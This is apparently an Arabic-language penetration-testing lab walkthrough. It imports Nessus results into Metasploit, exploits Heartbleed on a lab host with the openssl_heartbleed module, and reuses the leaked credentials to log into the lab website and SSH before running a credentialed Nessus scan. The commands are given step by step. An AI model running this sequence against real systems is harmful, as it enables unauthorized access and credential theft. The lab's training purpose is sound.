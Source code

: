 الان خلونا نشوف الثغرات الي حصلها لنا عن طريق هذا الامر  
```bash
nessus_report_vulns 8  
```  
نشوف انه عطانا الثغرات الي حصلها كلها  

نقدر كذالك نسوي import للتقرير  
```bash
nessus_db_import 8  
```  

بعد ماستدعينا الريبورت حقنا خلونا نشوف هل فعلا الـ MSFconsole سوت لنا import لتقرير او لا  
خلونا نشوف الثغرات عن طريق امر خاص بالـ msfconsole  
```bash  
vulns  
```  

طبعا نشوف انه حصلنا قغرة OpenSSL Heartbeat Information Disclosure (Heartbleed)  
خلونا نجرب نستغلها  
اول شي نبحث عن الاستغلال بعدها نستغل  
```bash  
search heartbleed  
use auxiliary/scanner/ssl/openssl_heartbleed  
show options  
set RHOSTS 192.7.13.4  
set VERBOSE true  
scan  
```  
طبعا نشوف انه ممكن نحصل يوزر وباسورد ممكن نحصل اشياء كثير لانه قدر يسوي memory dump  
طبعا حصلنا اكثر من creds  
طبعا نشوف انه الان حصلنا اكثر من يوزر وباسورد ونجرب نسجل دخول في الموقع  
```bash  
Username: amanda  
Password: rockstar  
```  
طبعا الان نجرب نسجل دخول في هذا التارقت https://demossl.ine.local  

نشوف انه سجل معنا دخول وحنا نعرف ان التارقت هذا مفتوح فيه بورت 22 الي هو الـ SSH  
خلونا نجرب نأكسس الـ SSH بنفس اليوزر والباسورد  
```bash
ssh amanda@demossl.ine.local  
password: rockstar  
```  
نشوف انه دخلنا تمام وكلشي حلو  

خلونا نرجع للـ Nessus وندخل من القائمة الي يسار My Scans  
بعدين فوق يمين نختار New Scan  
طيب الان خلونا نختار انه نبي Advanced Scan  
طيب الان ندخل على الـ Credentials  
ونظيف الـ SSH Creds  
طبعا من اول خيار نختار password  
بعدين نعطيه اليوزر والباسورد الي حصلناهم فوق  
طيب الان عشان بس نخلي السكان اسرع شوي نسوي هذي الخطوات Settings > Host Discovery وتفعل ثاني خيار تحت General Settings والاول تقفله  
وندخل على الـ Port Scanning ونفعل اول خيار ونحدد له بورتات معينه  
ومن تحت فيه Local Port Enumeration نفعل اول خيار SSH (netstat)  
الان فقط نسوي save ونشغل  
الان نخليه يفحص ونسوي حق الويب  
